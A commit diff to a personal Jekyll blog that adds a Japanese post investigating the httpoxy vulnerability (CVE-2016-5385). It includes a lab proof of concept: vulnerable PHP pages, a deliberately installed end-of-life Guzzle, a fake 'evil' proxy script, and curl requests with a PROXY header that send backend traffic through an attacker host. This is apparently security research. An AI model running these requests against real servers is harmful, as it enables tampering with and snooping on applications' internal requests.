

Before and after one commit to KosukeShimofuji/KosukeShimofuji.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
add httpoxy post

````diff
--- a/_posts/2016-07-19-CVE-2016-5734.markdown
+++ b/_posts/2016-07-19-CVE-2016-5734.markdown
@@ -161,7 +161,7 @@ Linux vlun.test 3.16.0-4-amd64 #1 SMP Debian 3.16.7-ckt25-2+deb8u3 (2016-07-02)
 正規表現の完全なパターン渡して任意のコマンドの実行を起こすことが可能なのがわかりました。
 次に一部だけ正規表現が定義されている場合をみてみましょう。
 
- * デリミタを@で設定し、前半のデリミタだけを指定する
+ * デリミタを @ で設定し、前半のデリミタだけを指定する
 
 ```php
 <?php
--- /dev/null
+++ b/_posts/2016-07-19-httpoxy.markdown
@@ -0,0 +1,295 @@
+---
+layout: post
+title:  "httpoxy脆弱性について調査"
+date:   2016-07-19 12:00:00 +0900
+categories: vulnerability
+toc: true
+---
+
+# 概要
+
+CGIはHTTPリクエストで渡されたPROXYヘッダの値をHTTP_PROXY変数として保存しますが、HTTP_PROXY変数はHTTPクライアントにおいてPROXYの設定用に使われる変数であるため、攻撃者はHTTPクライアントに任意のHTTPプロキシを使用させることができます。
+
+# 影響
+
+環境変数が保持されるのはセッション毎なのか、プロセス毎なのかで影響範囲は異なります。ただ、多くのアプリケーションはセッション毎であるはずで、セッション毎ではないのは別の意味で脆弱だと思われるので、ここでは環境変数はセッション毎に保持される前提とします。
+また、2種類の攻撃に分けて考える必要があると思います。
+
+ * 第三者のHTTPリクエストを改竄して任意のPROXYを強制的に設定する
+
+この攻撃については中間者攻撃などのHTTPリクエストを改竄させる攻撃を併用する必要があります。攻撃者の目的がリクエストの改竄や傍受であるならば、中間者攻撃が達成できている時点で目的を達成できる条件は揃っているわけですので、この攻撃が実行される可能性は低いと考えています。
+
+ * 攻撃者自身のHTTPリクエストに任意のPROXYを設定する
+
+このような攻撃が実行される時、攻撃者が焦点を当てているのは、アプリケーション内部の通信を自分の制御下にあるproxyを通すことで内部仕様の把握やアプリケーションに悪意のあるデータを挿入しようとしていると考えられます。しかし、アプリケーション内部で起こる通信がTLS化されている場合、攻撃者が得ることができるのは暗号化された通信のみとなります。もしAPI通信などの通信が平文で行われていた場合、攻撃者はhttpoxyを利用してアプリケーションの仕様を把握し、不正なデータの挿入などを試みる可能性があります。
+
+# 解決策、緩和策
+
+2016/07/19日現在、パッチは出ていないので、PROXYヘッダーを無効する対応を[httpoxyの公式サイト](https://httpoxy.org/#fix-now)では推奨されています。
+
+# CVEの列挙
+
+httpoxyは様々なソフトウェアに影響があるため、複数のCVE番号が関連します。
+
+ * CVE-2016-5385 - PHP
+ * CVE-2016-5386 - Go
+ * CVE-2016-5387 - Apache HTTPD
+ * CVE-2016-1000104 - mod_fcgi
+ * CVE-2016-1000105 - Nginx cgi script
+ * CVE-2016-5388 - Tomcat
+ * CVE-2016-1000107 - Erlang HTTP Server
+ * CVE-2016-1000108 - YAWS
+ * CVE-2016-1000109 - HHVM FastCGI
+ * CVE-2016-1000110 - Python CGIHandler
+ * CVE-2016-1000111 - Python twisted
+
+## CVE-2016-5385についての検証
+
+ * 情報源
+     * [CERT](https://www.kb.cert.org/vuls/byid?query=CVE-2016-5385&searchview=)
+     * [Debian](https://security-tracker.debian.org/tracker/CVE-2016-5385)
+     * [Github](https://github.com/search?q="CVE-2016-5385")
+     * [LWN](https://lwn.net/Search/DoSearch?words=CVE-2016-5385)
+     * [NVD](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-5385)
+     * [PacketStorm](https://packetstormsecurity.com/search/?q=CVE-2016-5385)
+     * [Redhat](https://access.redhat.com/security/cve/CVE-2016-5385)
+     * [Ubuntu](https://people.canonical.com/~ubuntu-security/cve/CVE-2016-5385.html)
+     * [bugtraq](https://marc.info/?s=CVE-2016-5385&l=bugtraq)
+     * [exploitdb](https://www.exploit-db.com/search/?action=search&cve=2016-5385)
+     * [fulldisc](https://marc.info/?s=CVE-2016-5385&l=full-disclosure)
+     * [metasploit](https://www.rapid7.com/db/search?q=CVE-2016-5385)
+     * [oss-sec](https://marc.info/?s=CVE-2016-5385&l=oss-security)
+
+ * 検証環境
+
+```
+$ lsb_release -a
+No LSB modules are available.
+Distributor ID: Debian
+Description:    Debian GNU/Linux 8.5 (jessie)
+Release:        8.5
+Codename:       jessie
+$ dpkg -l | egrep 'apache|php'
+ii  apache2                        2.4.10-10+deb8u4            amd64        Apache HTTP Server
+ii  php5                           5.6.23+dfsg-0+deb8u1        all          server-side, HTML-embedded scripting language (metapackage)
+```
+
+まずはHTTPヘッダーを渡すことでHTTP_PROXY変数を埋めることができるのかどうかを確認します。
+
+ * test.php
+
+```php
+<html>
+<head>
+<title>title httpoxy proof of concept</title>
+<body>
+<?php
+echo getenv('HTTP_PROXY')
+?>
+</body>
+</html>
+```
+
+ * attack
+
+```
+$ curl -H 'PROXY:HTTPOXY VLUN' http://scapegoat.test/test.php
+<html>
+<head>
+<title>title httpoxy proof of concept</title>
+<body>
+HTTPOXY VLUN
+</body>
+</html>
+```
+
+HTTP_PROXY変数に任意の値を格納することに成功しました。これが一体どういう問題を起こすのでしょうか？
+Guzzile4系のようなHTTP_PROXY環境変数を利用するHTTPクライアントを利用すると問題は顕在化します。
+
+ * guzzle4.0.1のインストール
+
+```
+curl -sS https://getcomposer.org/installer | php
+php composer.phar require guzzlehttp/guzzle:~4.0.1
+```
+
+guzzleの最新版は6系です。4系はEOLになっており、脆弱性を発現させるために故意に導入しています。
+次に脆弱なphpファイルを作成します。test.phpは内部でHTTPクライアントを作成して、ok.phpのレスポンスを表示します。
+
+ * test.php
+
+```
+
+<html>
+<head>
+<title>title httpoxy proof of concept</title>
+<body>
+<?php
+if (getenv('HTTP_PROXY') == false) {
+    echo "HTTP_PROXY variable is false";
+}else{
+    echo "HTTP_PROXY variable is ".getenv('HTTP_PROXY');
+}
+require 'vendor/autoload.php';
+$client = new GuzzleHttp\Client();
+$res = $client->get('http://scapegoat.test/ok.php');
+
+echo "OK.php return response is " . $res->getBody();
+?>
+</body>
+</html>
+```
+
+ * ok.php
+
+```
+<?php
+echo "OK";
+?>
+```
+
+攻撃者は悪意のあるproxyサーバを自分のコントロール下で構築します。ここで用意しているのはproxyとは名ばかりの貧弱なHTTPサーバになっています。
+
+ * proxy.py
+
+```python
+#!/usr/bin/python
+import http.server
+import socketserver
+import io
+
+HTTP_PORT = 4000
+
+class httpoxy(http.server.SimpleHTTPRequestHandler):
+
+    def do_GET(self):
+        bytes = "Evil".encode('utf-8')
+        self.send_response(200)
+        self.end_headers()
+        self.wfile.write(bytes)
+        return
+
+httpd = socketserver.TCPServer(("", HTTP_PORT), httpoxy)
+httpd.serve_forever()
+```
+
+まずは正常なリクエストを見てみます。
+
+```bash
+$ curl http://scapegoat.test/test.php
+<html>
+<head>
+<title>title httpoxy proof of concept</title>
+<body>
+HTTP_PROXY variable is false
+OK.php return response is OK</body>
+</html>
+```
+
+ok.phpにより**OK**という文字列が表示されています。 次に攻撃者によって悪意あるproxyサーバに強制的に接続され、そのサーバから返答を受け取った例を見てみます。
+
+```bash
+$ curl -H 'PROXY: 192.168.10.103:4000' http://scapegoat.test/test.php
+<html>
+<head>
+<title>title httpoxy proof of concept</title>
+<body>
+HTTP_PROXY variable is 192.168.10.103:4000
+OK.php return response is Evil</body>
+</html>
+```
+
+**OK**と表示されていた箇所に**Evil**と表示されています。この時、答えを返しているのは悪意あるproxyであり、ok.phpにはリクエストが飛ぶことはありません。
+
+# HTTP_PROXY_*変数
+
+[akamai](https://blogs.akamai.com/2016/07/akamai-mitigates-httpoxy-vulnerability.html)ではHTTP_PROXY変数の他の以下の変数が潜在的な影響を受けたと報告しています。
+
+ * HTTP_PROXY_PASS
+ * HTTP_PROXY_USER
+ * HTTP_PROXY_HOST
+ * HTTP_PROXY_PORT
+
+CVE-2016-5385についての検証で利用した検証環境を用いて上記変数への影響があるのかを検証します。
+
+
+```php
+<html>
+<head>
+<title>title httpoxy proof of concept</title>
+<body>
+<?php
+
+// HTTP_PROXY
+if (getenv('HTTP_PROXY') == false) {
+    echo "HTTP_PROXY variable is false";
+}else{
+    echo "HTTP_PROXY variable is ".getenv('HTTP_PROXY');
+}
+
+echo "\n";
+
+// HTTP_PROXY_USER
+if (getenv('HTTP_PROXY_USER') == false) {
+    echo "HTTP_PROXY_USER variable is false";
+}else{
+    echo "HTTP_PROXY_USER variable is ".getenv('HTTP_PROXY_USER');
+}
+
+echo "\n";
+// HTTP_PROXY_PASS
+if (getenv('HTTP_PROXY_PASS') == false) {
+    echo "HTTP_PROXY_PASS variable is false";
+}else{
+    echo "HTTP_PROXY_PASS variable is ".getenv('HTTP_PROXY_PASS');
+}
+
+echo "\n";
+// HTTP_PROXY_HOST
+if (getenv('HTTP_PROXY_HOST') == false) {
+    echo "HTTP_PROXY_HOST variable is false";
+}else{
+    echo "HTTP_PROXY_HOST variable is ".getenv('HTTP_PROXY_HOST');
+}
+
+echo "\n";
+// HTTP_PROXY_PORT
+if (getenv('HTTP_PROXY_PORT') == false) {
+    echo "HTTP_PROXY_PORT variable is false";
+}else{
+    echo "HTTP_PROXY_PORT variable is ".getenv('HTTP_PROXY_PORT');
+}
+
+echo "\n";
+?>
+</body>
+</html>
+```
+
+```
+$ curl -H 'PROXY: VLUN' -H 'PROXY_USER: VLUN' -H 'PROXY_PASS: VLUN' -H 'PROXY_HOST: VLUN' -H 'PROXY_PORT: VLUN'  http://scapegoat.test/test.php
+<html>
+<head>
+<title>title httpoxy proof of concept</title>
+<body>
+HTTP_PROXY variable is VLUN
+HTTP_PROXY_USER variable is false
+HTTP_PROXY_PASS variable is false
+HTTP_PROXY_HOST variable is false
+HTTP_PROXY_PORT variable is false
+</body>
+</html>
+```
+
+上記[検証環境](https://kosukeshimofuji.jp/2016/07/19/httpoxy/#cve-2016-5385についての検証)ではHTTP_PROXY変数以外は汚染することができませんでした。
+
+# まとめ
+
+ * 中間者攻撃と併用して第三者を攻撃するメリットはないように思える。
+ * 内部のAPI通信にHTTPSを使っていれば、攻撃者ができるのは暗号化された通信を溜め込んでおくことぐらいになる。
+
+# 参考文献
+
+ * [httpoxy脆弱性の公式ページ](https://httpoxy.org/)
+ * [osssec](http://seclists.org/oss-sec/2016/q3/95)
+ * [Akamai Mitigates httpoxy Vulnerability](https://blogs.akamai.com/2016/07/akamai-mitigates-httpoxy-vulnerability.html)
````
